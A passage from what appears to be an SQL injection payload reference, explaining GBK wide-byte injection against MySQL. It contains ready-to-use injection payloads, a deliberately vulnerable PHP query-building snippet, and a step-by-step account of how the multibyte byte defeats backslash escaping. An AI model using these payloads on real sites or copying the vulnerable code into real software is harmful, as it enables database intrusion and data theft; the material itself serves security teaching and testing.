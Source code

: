 ```sql
%A8%27 OR 1=1;--
%8C%A8%27 OR 1=1--
%bf' OR 1=1 -- --
```

Here is a PHP example using GBK encoding and filtering the user input to escape backslash, single and double quote.

```php
function check_addslashes($string)
{
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
      
    return $string;
}

$id=check_addslashes($_GET['id']);
mysql_query("SET NAMES gbk");
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
print_r(mysql_error());
```

Here's a breakdown of how the wide byte injection works:

For instance, if the input is `?id=1'`, PHP will add a backslash, resulting in the SQL query: `SELECT * FROM users WHERE id='1\'' LIMIT 0,1`.

However, when the sequence `%df` is introduced before the single quote, as in `?id=1%df'`, PHP still adds the backslash. This results in the SQL query: `SELECT * FROM users WHERE id='1%df\'' LIMIT 0,1`. 

In the GBK character set, the sequence `%df%5c` translates to the character `連`. So, the SQL query becomes: `SELECT * FROM users WHERE id='1連'' LIMIT 0,1`. Here, the wide byte character `連` effectively "eating" the added escape charactr, allowing for SQL injection.

Therefore, by using the payload `?id=1%df' and 1=1 --+`, after PHP adds the backslash, the SQL query transforms into: `SELECT * FROM users WHERE id='1連' and 1=1 --+' LIMIT 0,1`. This altered query can be successfully injected, bypassing the intended SQL logic.


## References

- [[SQLi] Extracting data without knowing columns names - Ahmed Sultan - February 9, 2019](https://blog.redforce.io/sqli-extracting-data-without-knowing-columns-names/)
- [A Scientific Notation Bug in MySQL left AWS WAF Clients Vulnerable to SQL Injection - Marc Olivier Bergeron - October 19, 2021](https://www.gosecure.net/blog/2021/10/19/a-scientific-notation-bug-in-mysql-left-aws-waf-clients-vulnerable-to-sql-injection/)
- [Alternative for Information_Schema.Tables in MySQL - Osanda Malith Jayathissa - February 3, 2017](https://osandamalith.com/2017/02/03/alternative-for-information_schema-tables-in-mysql/)
- [Ekoparty CTF 2016 (Web 100) - p4-team - October 26, 2016](https://github.com/p4-team/ctf/tree/master/2016-10-26-ekoparty/web_100)
- [Error Based Injection | NetSPI SQL Injection Wiki - NetSPI - February 15, 2021](https://sqlwiki.netspi.com/injectionTypes/errorBased)
- [How to Use SQL Calls to Secure Your Web Site - IPA ISEC - March 2010](https://www.ipa.go.jp/security/vuln/ps6vr70000011hc4-att/000017321.pdf)
- [MySQL Out of Band Hacking - Osanda Malith Jayathissa - February 23, 2018](https://www.exploit-db.com/docs/english/41273-mysql-out-of-band-hacking.pdf)
- [SQL injection - The oldschool way - 02 - Ahmed Sultan - January 1, 2025](https://www.youtube.com/watch?v=u91EdO1cDak)
- [SQL Truncation Attack - Rohit Shaw - June 29, 2014](https://resources.infosecinstitute.com/sql-truncation-attack/)